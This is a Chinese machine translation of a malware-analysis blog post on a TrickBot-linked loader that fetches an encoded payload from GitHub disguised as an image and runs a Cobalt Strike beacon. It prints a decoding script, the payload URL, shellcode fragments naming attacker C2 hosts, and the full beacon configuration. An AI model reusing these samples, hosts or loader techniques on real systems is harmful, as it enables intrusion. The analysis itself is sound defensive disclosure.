






# TrickBot 船员新钴罢工装载机

> 原文：<https://medium.com/walmartglobaltech/trickbot-crews-new-cobaltstrike-loader-32c72b78e81c?source=collection_archive---------0----------------------->

作者:杰森·里维斯和约书亚·普拉特


最近，我们偶然发现一个新的 CS 加载器被一个参与 TrickBots CS 和赎金操作的演员所利用。



Ref: Virustotal.com

在上面的截图中，我们可以看到 TrickBots 工作人员过去曾利用域来运行他们的 CobaltStrike 感染，但最近出现了另一个样本，这是一个新的加载程序，我们稍后将看到它也用于交付 CobaltStrike，但与以前的交付方式相比，它采用了一种新的方式，即利用 GitHub 来托管编码数据。

# 新加载程序

```
MD5:     5b203929f9e42c6d14b7153c5f11d387
SHA1:    4e6a42b0da1185a4331e085ee68b64f61e1d9e83
SHA256:  0234f80c6fd3768f9619d6fcd50d775ec686719fcc665007bfd1606bbe787744
```

大多数重要的字符串都是模糊的:



String stored in data



String loaded on stack

在这两种情况下，字符串最终通过与单个字节进行 XOR 运算并从值中减去 iterator+1 来解码，然而在这些情况下，XOR 关键字只是 0。用于解码各种字符串的 IDA 代码示例如下:

```
def decode(s,k):
  blob = bytearray(s[5:])
  for i in range(len(blob)):
    blob[i] ^= k
    blob[i] = (blob[i] - (i+1)) & 0xff
  return blob

def tdecode(addr):
 out = ""
 while GetMnem(addr) == "mov" and GetOperandValue(addr,1) != 0:
  out += chr(GetOperandValue(addr,1))
  addr = idc.NextHead(addr)
 return decode(out,0)
```

相关字符串的部分列表如下:

```
Asderfolkij092/laughing-pancake/main/profile.jpg
Curl
GET
raw.githubusercontent.com
NtAllocateVirtualMemory
wininet.dll
LoadLibraryW
C:\Windows\System32\ntdll.dll
HttpSendRequestW
logo.png
C:\Windows\System32\kernel32.dll
```

该示例将手动将 kernel32.dll 和 ntdll.dll 加载到内存中，以解析它的一些函数，但将利用 LoadLibraryW 来加载 wininet.dll。该示例还将利用 VirtualAllocExNuma 将 dll 加载到内存中:



在解决了必要的依赖性之后，加载程序将简单地尝试下载一个文件，该文件将被解码，然后在内存中执行。从上面的部分字符串列表中可以看出，这个文件曾经托管在 GitHub 上:

```
raw.githubusercontent.com/Asderfolkij092/laughing-pancake/main/profile.jpg
```

这个帐户不再活跃，似乎已被删除，可能躲避了演员在利用他们的活动后清理自己。不过，我们确实设法发现了一个正在利用的活跃账户:



Ref: github.com

将要使用的文件位于“无处不在的流鼻涕”存储库中:



Ref: github.com

safety.png 文件根本不是图像，它实际上只是一个小的二进制数据块:

```
00000000: 00b9 e031 3244 200d 1c02 71cc 1058 8486  ...12D ...q..X..
00000010: 4023 3018 22c4 3364 228c 8878 2e0a d488  @#0.".3d"..x....
00000020: 8746 0c81 353e 7614 5903 630d 1920 49da  .F..5>v.Y.c.. I.
00000030: 3038 7186 4822 28f1 d8a8 c132 a110 9031  08q.H"(....2...1
00000040: 6d60 3c68 13a7 c018 1379 e2c1 7113 cf49  m`<h.....y..q..I
00000050: 8132 764e 242a f046 cc92 3533 1a11 28e4  .2vN$*.F..53..(.
00000060: 86c1 2057 0d12 11e8 52e0 901c 51bb 52c4  .. W....R...Q.R.
<...>
```

在我们解码这个数据块之后，我们剩下一个 C 风格的十六进制字节字符串，乍一看是外壳代码:

```
xFC\x48\x83\xE4\xF0\xE8\xC8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xD2\x65\x48\x8B\x52\x60\x48\x8B\x52\x18\x48\x8B\x52\x20\x48\x8B\x72\x50\x48\x0F\xB7\x4A\x4A\x4D\x31\xC9\x48\x31\xC0\xAC\x3C\x61\x7C\x02\x2C\x20\x41\xC1\xC9 <...>
```

转换为字节:

```
<...>
\x82\xff\xff\xff/gifs20210122.dat\x00\xb4\xeb\xee\x92?\xfe\xfc\x9f\xce\x92{\x14\xe3P\xd9\xef\x89\xd5\x11\xbcmM\xd4=L\xc6\xf6(\xbb>\xfd\x0e\xc3w# \xf9\x1f\xd5W\xcd\x14H\xca\x97O\xeb\xf1\x1c\xb6\x80Z.2WgKhq\x1f\x80\x00Connection: Keep-Alive\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win32; x32; rv:71.0) Gecko/20100101 Firefox/71.0\r\n\x00ce\xd6\xf6W\xe5\x03\xc1C\x93-5\x7f4\x97|\x96\x13\xf3\xfe\x87\xd1\xc4q1pdwH\rQ\x91{\x90\xe7\xdff\xbd\xb9(v\x18\x8b\xfb\x04\xb2\xce\xc9VY\xb9\xfb\x0bcG\xe9\xd4B\x86m\x1e\xcc\x0f\xea\xcd\x0cbxe\x04\xebw\x84/F\xbco]LY\xd0\x1f\xe7\xf7\xa9np\x8dx/<\xf5^\x1e\xf9\x16\xa7\xb9\xb7\x87\xc1\x03\xb8h>\x91Z\x98\x9a\xf4\xee/\xad\xb3\xba|\x9d\xd2\xac\xa0\x1e\xcc*j\xe9\xe5> g\xae\xf4\x84\xb4\x00\x1f,\xb1\x9bOiw\xfc\xc0\x19\xa6\x02\xeb\xe2c=m\xb6\xb4(Q\x8d?Y\x0e\xda0?y\xe0;\xd6|\xf1\x9dDT\xd2\xd5\x9a#\xe7b;\xe7\x1c\x9a\xda\x8fH\xfa\x01\x00A\xbe\xf0\xb5\xa2V\xff\xd5H1\xc9\xba\x00\x00@\x00A\xb8\x00\x10\x00\x00A\xb9@\x00\x00\x00A\xbaX\xa4S\xe5\xff\xd5H\x93SSH\x89\xe7H\x89\xf1H\x89\xdaA\xb8\x00 \x00\x00I\x89\xf9A\xba\x12\x96\x89\xe2\xff\xd5H\x83\xc4 \x85\xc0t\xb6f\x8b\x07H\x01\xc3\x85\xc0u\xd7XXXH\x05\x04\x00\x00\x00P\xc3\xe8\x7f\xfd\xff\xffcakes.rainbowmango.info\x00Q\t\xbfm
```

它将下载 64 位 CobaltStrike 信标:

```
{   'C2_CHUNK_POST': '0',
    'C2_POSTREQ': '[(\'_HEADER\', 0, "bytearray(b\'Accept: */*\')"), (\'_HEADER\', 0, "bytearray(b\'Content-Type: multipart/form-data; boundary=-----------HYUNSJFDCNHWEUFNJ\')"), (\'BUILD\', (\'NETBIOS\',)), (\'_HEADER\', 2336, \'bytearray(b\\\' \\\\t     \\\\n\\\\t    \\\\t     menu\\\\x00\\\\x00\\\\x00\\\\x01\\\\x00\\\\x00\\\\x00\\\\xc0\\\\n-----------HYUNSJFDCNHWEUFNJ\\\\n\\\\t            Content-Disposition: form-data; name="pic"\\\\n\\\\t            \\\\n\\\\t            dropdown-menu dropdown-menu-sw-menu\\\\n\\\\t            -----------HYUNSJFDCNHWEUFNJ--\\\\x00\\\\x00\\\\x00\\\\x04\\\\x00\\\\x00\\\\x00\\\\x07\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\r\\\\x00\\\\x00\\\\x00\\\\x05\\\\x00\\\\x00\\\\x00\\\\x04base\\\')\')]',
    'C2_RECOVER': "b'04000000010000002400000008000000010000008c'",
    'C2_REQUEST': '[(\'_HEADER\', 0, "bytearray(b\'Accept: image/webp,*/*\')"), (\'_HEADER\', 0, "bytearray(b\'Accept-Encoding: gzip, deflate, br\')"), (\'_HEADER\', 0, "bytearray(b\'Accept-Language: en-US,en;q=0.5\')"), (\'_HEADER\', 0, "bytearray(b\'Cache-Control: max-age=0\')"), (\'BUILD\', (\'BASE64URL\',)), (\'HEADER\', 17263, "bytearray(b\'ie\')")]',
    'C2_VERB_GET': 'GET',
    'C2_VERB_POST': 'POST',
    'CRYPTO_sCHEME': '0',
    'DOMAINS': 'subs.rainbowmango.info ,/share/pink,food.rainbowmango.info,/share/pink',
    'HostHeader': '',
    'ITTER': '55',
    'KillDate': '0',
    'MAXGET': '2097468',
    'ObfSectionsInfo': "b'c0020072b8030000c00300888504000090040034b0040000c004005ecf04'",
    'PORT': '443',
    'PROTOCOL': '8',
    'PROXY_BEHAVIOR': '2',
    'PUBKEY': "b'30819f300d06092a864886f70d010101050003818d0030818902818100a70991d69d816a601ffa80976473830f0d3b41276d2790401ddedb18e2d3cab3c315e3222325be42b65adb2878f33f5a03ff5010b23e842a510c1482ad6a42f1e7e5726eb31813e7437640ed7879955f401e172c34d3517241596dd41f8e48d3d1b1c288e6c8752ff65dc27acccba4ba9cd6d0e4de6196cea4da480d3b99d0ed0203010001'",
    'ProcInject_AllocationMethod': '0',
    'ProcInject_Execute': '\x01\x03\x06\x10\x00\x00\x00\x00\nntdll.dll\x00\x00\x00\x00\x13RtlUserThreadStart\x00\x02\x08\x07 \x00\x00\x00\x00\rkernel32.dll\x00\x00\x00\x00\rLoadLibraryA\x00\x04',
    'ProcInject_MinAllocSize': '16535',
    'ProcInject_Prepend_x64': '',
    'ProcInject_Prepend_x86': '',
    'ProcInject_StartRWX': '4',
    'ProcInject_Stub': "b'0ce2f55444e4793516b5afe967be9255'",
    'ProcInject_UseRWX': '32',
    'SLEEPTIME': '6145',
    'SPAWNTO': '',
    'SPAWNTO_X64': '%windir%\\sysnative\\gpupdate.exe',
    'SPAWNTO_X86': '%windir%\\syswow64\\gpupdate.exe',
    'SUBMITURI': '/us',
    'USERAGENT': 'Mozilla/5.0 (Windows NT 10.0; Win32; x32; rv:74.0) Gecko/2010010101 Firefox/74.0',
    'UsesCookies': '1',
    'WATERMARK': '1359593325',
    'bCFGCaution': '0',
    'bStageCleanup': '0',
    'textSectEnd': '177872'}
```

# 参考

1.  [https://docs . Microsoft . com/en-us/windows/win32/API/memory API/nf-memory API-virtualallocexnuma](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocexnuma)
2.  【https://virustotal.com 号
3.  【https://github.com 